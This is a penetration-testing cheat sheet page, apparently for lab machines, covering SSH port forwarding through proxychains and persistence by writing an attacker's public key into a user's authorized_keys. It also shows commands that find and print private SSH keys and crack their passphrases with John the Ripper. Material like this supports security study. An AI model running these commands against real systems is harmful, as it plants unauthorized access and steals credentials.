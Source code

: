 ```yaml
---
icon: person-to-portal
---
```


# Pivoting/Lateral Movement

## <mark style="color:purple;">Lateral Movement</mark>

{% hint style="info" %}
### <mark style="color:orange;">`SSH`</mark> <mark style="color:purple;">Tunneling</mark>

* <mark style="color:purple;">Check with port is being used by</mark> <mark style="color:orange;">**`proxychains`**</mark>:

```sh
tail /etc/proxychains.conf
```

#### <mark style="color:red;">`Dynamic Port Forwarding`</mark>

* <mark style="color:orange;">**`ssh`**</mark> <mark style="color:purple;">creating a</mark> <mark style="color:orange;">**`SOCK proxy`**</mark><mark style="color:purple;">**:**</mark>

```sh
ssh charix@10.10.10.84 -D 9050
```

* <mark style="color:purple;">Now just use</mark> <mark style="color:orange;">**`proxychains`**</mark><mark style="color:purple;">**:**</mark>

{% code title="VNC example" %}
```sh
proxychains vncviewer 127.0.0.1:5901 -passwd secret
```
{% endcode %}

***

#### <mark style="color:red;">`Local Port Forwarding`</mark>

```sh
ssh -L 3306:localhost:3306 user@remotehost.com
```

***

<mark style="color:red;">**`Remote Port Forwarding`**</mark>

```sh
ssh root@10.10.10.65 -R 4443:10.10.14.6:443
```
{% endhint %}

***

## <mark style="color:purple;">Persistence</mark>

***

{% hint style="info" %}
### <mark style="color:orange;">`SSH`</mark> <mark style="color:purple;">Key Injection</mark>

{% code title="Generate SSH Keys" %}
```sh
ssh-keygen -t ed25519 -f key
```
{% endcode %}

* <mark style="color:purple;">To make sure the execute properly give it restricted permissions:</mark>

```sh
chmod 600 id_rsa
```

* <mark style="color:purple;">If</mark> <mark style="color:orange;">**`authorized_keys`**</mark> <mark style="color:purple;">file doesn't exist create one with your public key:</mark>

```sh
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJsqrD2TiYF/KEidiuQncxpjkUU4CDS2A3lmhz1jeHIi b0llull0s@p4n1c" > /home/dvir/.ssh/authorized_keys
```

* <mark style="color:purple;">Other wise append your public key:</mark>

```sh
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJsqrD2TiYF/KEidiuQncxpjkUU4CDS2A3lmhz1jeHIi b0llull0s@p4n1c" >> /home/dvir/.ssh/authorized_keys
```

* <mark style="color:purple;">Now just connect with your private key:</mark>

```sh
ssh -i key dvir@10.10.11.8
```

### <mark style="color:purple;">Using Existing keys</mark>

{% code title="Look for the private key" %}
```bash
find /home/user -name "id_*" -exec cat {} \;
```
{% endcode %}

* <mark style="color:purple;">Once you find it, just copy the key in your</mark> <mark style="color:orange;">**`.ssh`**</mark> <mark style="color:purple;">directory and ssh in.</mark>
* <mark style="color:purple;">Also you can, check If the Corresponding private/public Key is known by using this</mark> [<mark style="color:orange;">**`repo`**</mark>](https://github.com/rapid7/ssh-badkeys)<mark style="color:purple;">.</mark>

### <mark style="color:purple;">Crack the passphrase</mark>&#x20;

***

* <mark style="color:purple;">Once you got the private key, you can use</mark> <mark style="color:orange;">**`ssh2john`**</mark> <mark style="color:purple;">to generate a hash from the key:</mark>

```bash
ssh2john private_key > private_key.hash
```

* <mark style="color:purple;">Then feed this hash into</mark> <mark style="color:orange;">**`John the Ripper`**</mark><mark style="color:purple;">:</mark>

```bash
john private_key.hash --wordlist=/path/to/wordlist
```
{% endhint %}

